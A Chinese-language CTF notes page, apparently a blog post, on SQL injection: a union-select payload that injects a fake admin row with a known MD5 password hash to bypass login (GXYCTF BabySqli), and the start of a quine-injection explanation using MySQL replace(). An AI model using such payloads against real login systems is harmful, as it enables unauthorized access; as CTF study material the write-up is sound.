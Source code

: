 ```yaml
---
title: random
date: 2023-08-14 01:02:23
categories:
- 网络安全
tags:
- web 
description: |
    忘记了最开始的
---
```


## union虚拟表

[GXYCTF 2019]BabySqli

payload`0' union select 0,'admin','e10adc3949ba59abbe56e057f20f883e'#&pw=123456`

就是`union select` 会加一行虚拟表 内容是`0,'admin','e10adc3949ba59abbe56e057f20f883e'`正好密码123456的md5值是这个 从而绕过了密码验证

## quine注入 unique注入

[NISACTF 2022]hardsql

解释：实质上就是返回的值和输入值相同，对于这种输出自己的源代码的程序有一个名称,Qunie

首先先了解一下`replace()`函数

`replace(object,search,replace)`

把object对象中出现的的search全部替换成replace,然后返回替换后的结果

object里面编码不会被替换

即：

`REPLACE(**"REPLACE("B",char(66),"B")"**,char(66),"REPLACE("B",char(66),"B")")`

黑体处的char(66)不会被替换，B会被替换

```bash
mysql> select replace(".",char(46),".");
+---------------------------+
| replace(".",char(46),".") |
+---------------------------+
| .                         |
+---------------------------+


mysql> select REPLACE('REPLACE("B",char(66),"B")',char(66),'REPLACE("B",char(66),"B")');
+---------------------------------------------------------------------------+
| REPLACE('REPLACE("B",char(66),"B")',char(66),'REPLACE("B",char(66),"B")') |
+---------------------------------------------------------------------------+
| REPLACE("REPLACE("B",char(66),"B")",char(66),"REPLACE("B",char(66),"B")") |
+---------------------------------------------------------------------------+

看出输入和输出结果差单引号和双引号
```
